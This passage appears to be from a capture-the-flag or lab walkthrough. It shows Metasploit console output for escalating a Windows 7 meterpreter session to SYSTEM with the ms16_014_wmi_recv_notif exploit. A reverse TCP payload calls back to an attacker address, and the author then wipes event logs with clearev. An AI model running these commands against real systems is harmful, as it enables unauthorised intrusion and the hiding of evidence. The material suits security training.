 Looks like we can't clear the event logs. We'll have to escalate as `NT AUTHORITY\SYSTEM`. Let's enumerate some exploits.

```
meterpreter > run post/multi/recon/local_exploit_suggester showdescription=true

[*] 10.10.22.1 - Collecting local exploits for x64/windows...
..[snip]..
[+] 10.10.22.1 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
  This module exploits an uninitialized stack variable in the WMI 
  subsystem of ntoskrnl. This module has been tested on vulnerable 
  builds of Windows 7 SP0 x64 and Windows 7 SP1 x64.
..[snip]..
meterpreter > bg
[*] Backgrounding session 3...
msf6 exploit(multi/script/web_delivery) > use exploit/windows/local/ms16_014_wmi_recv_notif
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > options

Module options (exploit/windows/local/ms16_014_wmi_recv_notif):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 SP0/SP1


msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set lhost 10.8.145.108
lhost => 10.8.145.108
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set lport 53
lport => 53
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set session 3
session => 3
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > exploit

[*] Started reverse TCP handler on 10.8.145.108:53 
[*] Reflectively injecting the exploit DLL and running it...
[*] Launching msiexec to host the DLL...
[+] Process 2184 launched.
[*] Reflectively injecting the DLL into 2184...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 10.10.22.1
[*] Meterpreter session 4 opened (10.8.145.108:53 -> 10.10.22.1:49250) at 2022-05-28 09:34:33 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > clearev
[*] Wiping 6 records from Application...
```